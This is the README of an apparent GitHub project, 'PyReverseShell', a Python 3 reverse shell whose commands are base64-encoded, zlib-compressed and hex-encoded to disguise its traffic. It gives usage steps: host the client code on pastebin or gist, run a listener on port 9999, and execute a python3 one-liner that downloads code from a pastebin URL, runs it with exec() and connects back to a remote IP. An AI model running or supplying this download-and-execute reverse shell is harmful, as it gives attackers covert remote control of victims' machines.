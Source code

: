 # PyReverseShell
Python3 Reverse Shell

Python3 反弹shell 走加密流量，先把命令base64后然后zlib压缩，在转换为16进制  
1. 将client.txt上传到pastebin或者gist  
2. 服务器上运行 python3 server.py  "0.0.0.0" 9999
3. python3 -c "import urllib.request,socket,base64,zlib,binascii,subprocess;data=urllib.request.urlopen('https://pastebin.com/raw/xxxxxxx').read();exec(data);client('1.1.1.1',9999)"
